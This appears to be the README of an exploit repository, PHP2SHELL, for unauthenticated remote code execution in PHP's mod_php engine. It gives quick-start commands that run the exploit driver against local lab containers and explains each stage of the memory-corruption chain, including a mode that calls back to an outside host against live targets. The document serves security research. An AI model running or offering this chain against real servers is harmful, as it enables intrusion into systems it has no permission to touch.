

# PHP2SHELL

<p align="center">
  
  
  
  
</p>

<p align="center">
  <strong>Engine-level RCE on stock mod_php.</strong><br>
  No application logic. No authentication. Pure HTTP.
</p>

<p align="center">
  <a href="#proof-matrix">Proof matrix</a> ·
  <a href="#quick-start">Quick start</a> ·
  <a href="#how-the-chain-works">How it works</a> ·
  <a href="#repository-map">Repository map</a>
</p>

PHP2SHELL is a research lab and exploit for **CVE-2026-109618 / CVE-2026-109619**.
It drives the session upload-progress callback before RINIT and reaches
`zif_system` through a forged `zend_reference` / `zend_array` destructor.
The chain is proven on stock `php:<version>-apache` images.

> **Latest proof:** 8.3.35, the last affected 8.3 release — 10 chains across
> 6 ASLR layouts, all returning command output.
> [Read the evidence →](lab-8335/RESULT.md)

## Proof matrix

| Build | Status | What it proves | Evidence |
|---|---|---|---|
| **8.2.34** | 🟢 **SOLID** · last affected 8.2 | Full chain, 6 executions | [lab-8234](lab-8234/RESULT.md) |
| **8.3.29** | 🟢 **SOLID** · mid-branch | Full chain, 8 executions | [lab-8329](lab-8329/RESULT.md) |
| **8.3.35** | 🟢 **SOLID** · last affected 8.3 | Full chain, 10 executions across 6 ASLR layouts | [lab-8335](lab-8335/RESULT.md) |
| **8.4.26** | 🟢 **SOLID** · last affected 8.4 | Full chain, multi-worker, TLS and OOB modes | [REPORT](REPORT.md), [evidence](official-lab/EVIDENCE.md) |
| **8.5.11** | 🟡 **PARKED** · last affected 8.5 | A1 primitive proven; B1 leak uncalibrated | local only, not published |

> **Fixed boundary:** `8.2.35` · `8.3.36` · `8.4.27` · `8.5.12`.
> The driver refuses to send the chain to any banner at or above these
> releases. This repository publishes vulnerable-build proofs only; no
> dedicated fixed-build negative-control lab is included.

<details>
<summary><b>Advisory links</b></summary>

- [PHP release advisory](https://www.php.net/archive/2026.php#2026-10-21-5)
- [GHSA-w8hw-w9fx-j79w](https://github.com/php/php-src/security/advisories/GHSA-w8hw-w9fx-j79w)
- [GHSA-6wmf-4rv5-p3rp](https://github.com/php/php-src/security/advisories/GHSA-6wmf-4rv5-p3rp)
- [CVE-2026-109618](https://www.cve.org/CVERecord?id=CVE-2026-109618)
- [CVE-2026-109619](https://www.cve.org/CVERecord?id=CVE-2026-109619)

</details>

## Quick start

```bash
git clone https://github.com/ravhirizaldi/php2shell-engine-rce.git
cd php2shell-engine-rce
```

### 8.3.35 — last affected 8.3 (recommended)

Start the target in one terminal:

```bash
cd lab-8335
./run.sh
```

Run the URL-only driver from a second terminal (from the repository root):

```bash
cd lab-8335
printf 'http://127.0.0.1:18138/index.php\nid\nexit\n' | \
  P2S_OUTDIR=$PWD/out python3 ../oneshot/exploit.py
```

Expected:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<details>
<summary><b>Other proven targets</b> — 8.2.34, 8.3.29, 8.4.26</summary>

**8.2.34** — port `18134`:

```bash
cd lab-8234 && ./run.sh
# second terminal
printf 'http://127.0.0.1:18134/index.php\nid\nexit\n' | \
  P2S_OUTDIR=$PWD/out python3 ../oneshot/exploit.py
```

**8.3.29** — port `18129`:

```bash
cd lab-8329 && ./run.sh
# second terminal
printf 'http://127.0.0.1:18129/index.php\nid\nexit\n' | \
  P2S_OUTDIR=$PWD/out python3 ../oneshot/exploit.py
```

**8.4.26** — interactive reference engine:

```bash
cd official-lab && ./run.sh
python3 pure_shell.py --exec 'id'
```

</details>

<details>
<summary><b>Expected output and troubleshooting</b></summary>

A successful chain returns command output through the local `/out` proof-file
channel. On a fresh 8.3 child, the first B1 occasionally returns 0 bytes; the
driver retries automatically and the next chain succeeds. If the target is
behind a proxy with a small header limit, the ~1.26 MB `Set-Cookie` leak is
truncated and B1 cannot complete. Use the raw lab target for reproduction.

</details>

## How the chain works



<details>
<summary><b>What each stage does</b></summary>

1. **A1** sends a chunked multipart body that drives the upload-progress
   callback into the old END-cleanup OOM path. The bailout leaves
   `send_cookie` set and a stale `PS(id)` in the next request.
2. **B1** forges a `zend_string` header over the stale session id and reads
   past it. The resulting `Set-Cookie` carries heap and `libphp` pointers,
   giving runtime addresses without a separate info leak.
3. **A2/B2** grooms the heap, plants a forged `zend_reference` /
   `zend_array`, and redirects the destructor to `zif_system`.
4. The command runs as the Apache worker user and writes to `/out` in the
   lab, or returns through the OOB callback on a live target.

The 8.2/8.3 profiles anchor the fake array from the `zval_ptr_dtor` bucket;
the 8.4 profile uses the main leak bucket directly. The exact offsets and
geometry per build are in [`VERSIONS.md`](VERSIONS.md).

</details>

## Repository map

| Path | Contents |
|---|---|
| `oneshot/` | URL-only multi-build driver, engine, payload builders, profiles |
| `lab-8234/` | 8.2.34 proof: result, bootstrap, evidence |
| `lab-8329/` | 8.3.29 proof: result, calibration notes, evidence |
| `lab-8335/` | 8.3.35 proof: last affected 8.3, evidence |
| `official-lab/` | 8.4.26 target, interactive engine, multi-worker/TLS/OOB modes |
| `VERSIONS.md` | Build matrix, chain parameters, image and `libphp.so` hashes |
| `REPORT.md` | Consolidated 8.4.26 report and evidence manifest |
| `modphp-lab/`, `fpm-lab/` | Supporting application-precondition ports |

## Scope

- All runs are against local Docker targets. The repository ships no target
  list and no target discovery.
- The stock-target claims are the `lab-8234/`, `lab-8329/`, `lab-8335/`, and
  `official-lab/` results.
- 8.5.11 is parked: the A1 primitive is confirmed, but the B1 leak is not
  calibrated. No 8.5 exploitation result is claimed.
- Fixed releases are handled by the driver gate; no patched-build lab is
  published.

## Credits

- 9bie's public PHP2SHELL ASLR research and reference exploit.
- `de0`'s payload generators vendored under `official-lab/payloads/` and
  attributed in their headers.
